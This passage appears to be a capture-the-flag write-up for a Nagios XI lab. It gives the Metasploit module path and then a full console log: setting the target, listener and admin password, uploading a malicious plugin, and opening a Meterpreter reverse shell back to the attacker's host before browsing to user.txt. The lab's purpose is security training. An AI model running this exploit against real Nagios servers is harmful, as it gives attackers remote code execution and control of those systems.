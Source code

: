 # #8

**After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?**

Answer: `exploit/linux/http/nagios_xi_authenticated_rce`

# #9

**Compromise the machine and locate user.txt**

~~~
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set rhost 10.10.221.0
rhost => 10.10.221.0
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set lhost 10.9.0.54
lhost => 10.9.0.54
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > exploit 

[*] Started reverse TCP handler on 10.9.0.54:4444 
[*] Found Nagios XI application with version 5.5.6.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 10.10.221.0
[*] Meterpreter session 1 opened (10.9.0.54:4444 -> 10.10.221.0:46688) at 2020-08-19 12:38:23 +0200
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > 
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-03-25 04:45:51 +0100  galand

meterpreter > cd galand
meterpreter > ls
Listing: /home/galand
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  481   fil   2020-03-25 05:07:21 +0100  .bash_history
100644/rw-r--r--  220   fil   2020-03-23 18:38:06 +0100  .bash_logout
100644/rw-r--r--  3771  fil   2020-03-23 18:38:06 +0100  .bashrc
40700/rwx------   4096  dir   2020-03-23 23:59:15 +0100  .cache
40755/rwxr-xr-x   4096  dir   2020-03-24 00:42:44 +0100  .cpan
40700/rwx------   4096  dir   2020-03-24 00:42:45 +0100  .gnupg
40775/rwxrwxr-x   4096  dir   2020-03-25 04:45:26 +0100  .nano
100644/rw-r--r--  655   fil   2020-03-23 18:38:06 +0100  .profile
100600/rw-------  1024  fil   2020-03-24 01:08:28 +0100  .rnd
40755/rwxr-xr-x   4096  dir   2020-03-24 01:04:03 +0100  .subversion
100644/rw-r--r--  0     fil   2020-03-23 23:59:40 +0100  .sudo_as_admin_successful
40755/rwxr-xr-x   4096  dir   2020-03-24 01:08:49 +0100  nagiosxi
100664/rw-rw-r--  38    fil   2020-03-25 04:45:51 +0100  user.txt

~~~